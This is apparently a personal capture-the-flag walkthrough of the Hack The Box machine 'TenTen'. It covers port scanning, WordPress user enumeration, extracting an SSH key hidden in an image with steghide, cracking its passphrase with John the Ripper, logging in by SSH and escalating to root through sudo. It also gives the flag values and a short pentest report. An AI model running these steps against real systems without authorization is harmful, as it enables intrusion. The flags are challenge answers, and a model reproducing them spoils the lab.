 My notes from completing this box 

[TenTenNotes.pdf](https://github.com/ilyh4d3s/TenTenHTB/files/14633388/TenTenNotes.pdf)


nmap:
			sudo nmap -vvv -sVC -Pn -T4 -p0-65535 10.10.10.10 
   
				RESULTS:  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
		Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 23:45 CST
		NSE: Loaded 156 scripts for scanning.
		NSE: Script Pre-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		Initiating Parallel DNS resolution of 1 host. at 23:45
		Completed Parallel DNS resolution of 1 host. at 23:45, 13.01s elapsed
		DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
		Initiating SYN Stealth Scan at 23:45
		Scanning 10.10.10.10 [65536 ports]
		Discovered open port 80/tcp on 10.10.10.10
		Discovered open port 22/tcp on 10.10.10.10
		SYN Stealth Scan Timing: About 7.12% done; ETC: 23:53 (0:06:44 remaining)
		SYN Stealth Scan Timing: About 16.21% done; ETC: 23:52 (0:05:15 remaining)
		SYN Stealth Scan Timing: About 34.34% done; ETC: 23:50 (0:02:54 remaining)
		SYN Stealth Scan Timing: About 45.72% done; ETC: 23:50 (0:02:38 remaining)
		Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
		SYN Stealth Scan Timing: About 58.00% done; ETC: 23:50 (0:01:54 remaining)
		SYN Stealth Scan Timing: About 73.23% done; ETC: 23:50 (0:01:08 remaining)
		SYN Stealth Scan Timing: About 83.10% done; ETC: 23:50 (0:00:44 remaining)
		Completed SYN Stealth Scan at 23:50, 268.22s elapsed (65536 total ports)
		Initiating Service scan at 23:50
		Scanning 2 services on 10.10.10.10
		Stats: 0:04:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
		Service scan Timing: About 50.00% done; ETC: 23:50 (0:00:07 remaining)
		Completed Service scan at 23:50, 6.44s elapsed (2 services on 1 host)
		NSE: Script scanning 10.10.10.10.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 5.26s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.77s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Nmap scan report for 10.10.10.10
		Host is up, received user-set (0.14s latency).
		Scanned at 2024-03-08 23:45:51 CST for 281s
		Not shown: 65534 filtered tcp ports (no-response)
		PORT   STATE SERVICE REASON         VERSION
		22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD0ZxDYLkSx3+n8qOc+tpjAd+KZ8STcHdayXH5Vn7gRhiI6toUP53yvS4ysmU4uq/QkX+oAJabm3H2WdVDySKvLVitCstPErNjKmi3Zr4ROlJVyv25eR0Wuo42PqDRCB0DN5SBZsoylDM1FN53ZTdiTC4Da4NM/3zfXzJgBpo8NdRyCZJnTufOdR8x4RE/0QU6UZR1cJPKKNmS/7qzHtMDZx5MM0li07d77mDpUoMCxPGCWlH5VsgpKBUSvdzd5xjilN5/tU/uwgL4FLTcMJF6DPDORYxJWjGO8ThSm8nf+kgxdv1iSF3olv++tReoWjVZy/xrEIdgHTcPjGggldR9v
		|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERpTI9NMPamS6NaoLL5Y/nq+T19q1KR6GgtbsnmjCTtnGBKlaGI46uCPIYZwQ0MFDRg1hxq13rhLxl7JPIEjWU=
		|   256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOrtl+D1cRlO2WrvblMacn5J5/rh+PTJmgxDwkBBfg7
		80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Did not follow redirect to http://tenten.htb/
		Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

		NSE: Script Post-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Read data files from: /usr/bin/../share/nmap
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 295.13 seconds

WordPress enumeration: 
	command: 
		sudo wpscan --url http://10.10.10.10 --enumerate u 
	Users Found: takis 

WordPress:
	///notice on the wordpress site youre able to navigate the rest of the website and view other applications by changing the # in the url:http://tenten.htb/index.php/jobs/apply/13/
	/// we know that WP stores all uploaded content  in /wp-content/uploads
	/// notice that when we change the # in the URL to 13 we see a "HackerAccessGranted" application 
	///navigate to the following URL: http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg > save image to kali  

Steghide: 
	///trying to find any hidden information embedded in the image
		command: steghide extract -sf HackerAccessGranted.jpg      
			![[tentenHTB.png]]
	///notice that id_rsa is now on our kaliVM 
	///view the contents
		command: less id_rsa 
	///notice it is encrypted so well need to change the format into a hash that JohnTheRipper can crack
	
JohnTheRipper:
		command:  /usr/share/john/ssh2john.py id_rsa >id_rsa.login
	///now that we have the hash we need to run john to see if we can crack the password
			command:  /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.login
			///had to make sure wordlists was installed and unzipped
				command: sudo apt install wordlists           
				command: sudo gunzip /usr/share/wordlists/rockyou.txt.gz
				
			![[tenten1.png]]
			///We cracked the password and can see that it is "superpassword"
			/// Now we need to try to login to ssh using the username we found "takis" and the cracked password "superpassword"

SSH:
	command:  ssh -i id_rsa takis@10.10.10.10
		///if the command is not working you may need to  change the id_rsa file permissions
			command:  sudo chmod 600 id_rsa    
		///Enter the cracked password  & you're in HackerAccessGranted!! cat ![[tentenssh.png]]

PrivEsc: 
	sudo -l
		///see that a directory does not need a password  ![[tentenPriv.png]]
		///See that were root and now you can look around for the other flag!!

Flags: 
	User: ddcc806a63fdd7792ff886b26648cdaf
	Root: f6e949cb495eec767a1ec62e93827aeb

Post Pentest Report: 
			  


	---

	# Penetration Testing Report for HackTheBox

	## Executive Summary

	This report documents the findings of a penetration test conducted against the host `10.10.10.10`, belonging to HackTheBox. The objective of this test was to identify vulnerabilities, assess the impact and risk of these vulnerabilities, and recommend actions to mitigate identified security issues.

	## Test Methodology

	The penetration test was conducted using a comprehensive approach, utilizing various tools and techniques to discover and exploit vulnerabilities. Key phases included:

	- **Network Scanning**: Using `nmap` for identifying open ports and services.
	- **Application Enumeration**: Specifically targeting WordPress installations to identify users and potential vulnerabilities.
	- **Content Discovery**: Exploring application behavior to discover hidden or sensitive information.
	- **Cryptanalysis**: Employing `steghide` and `JohnTheRipper` to uncover and crack encrypted data.
	- **Access Exploitation**: Utilizing discovered credentials to gain unauthorized access via SSH.
	- **Privilege Escalation**: Analyzing system configurations to escalate privileges.

	## Key Findings

	### 1. Open Ports and Services

	- **SSH (22/tcp)**: Running OpenSSH 7.2p2 Ubuntu 4ubuntu2.1.
	- **HTTP (80/tcp)**: Hosting an Apache httpd 2.4.18 server, redirecting to a WordPress site.

	### 2. WordPress Enumeration

	- A user named `takis` was discovered, indicating a potential vector for further attacks.

	### 3. Sensitive Data Exposure

	- A hidden application named "HackerAccessGranted" was found, containing an encrypted SSH private key.

	### 4. Cryptanalysis

	- The encrypted SSH private key was successfully decrypted using `JohnTheRipper`, revealing the password "superpassword".

	### 5. Unauthorized Access

	- Utilizing the decrypted SSH key and discovered password, unauthorized access was gained to the system as the user `takis`.

	### 6. Privilege Escalation

	- A misconfigured directory allowed executing commands as root without a password, leading to full system compromise.

	## Risk Assessment

	The discovered vulnerabilities pose a severe risk, potentially allowing an attacker to gain unauthorized access, escalate privileges to root, and compromise the entire system.

	## Recommendations

	1. **Update and Patch**: Ensure the operating system and all applications, especially the SSH and Apache services, are up-to-date with the latest security patches.
	2. **Password Policy**: Implement a strong password policy to prevent the use of weak passwords.
	3. **Encrypt Sensitive Data**: Use strong encryption for sensitive data and secure the decryption keys.
	4. **Regular Security Audits**: Conduct regular security audits and penetration tests to identify and mitigate new vulnerabilities.
	5. **Access Controls**: Review and tighten file and directory permissions to adhere to the principle of least privilege.

	## Conclusion

	The penetration test revealed several significant vulnerabilities within the host `10.10.10.10` that could potentially be exploited to gain unauthorized access and escalate privileges. Immediate action is recommended to address these issues and protect the system from potential threats. Regular security assessments are advised to maintain a robust security posture.
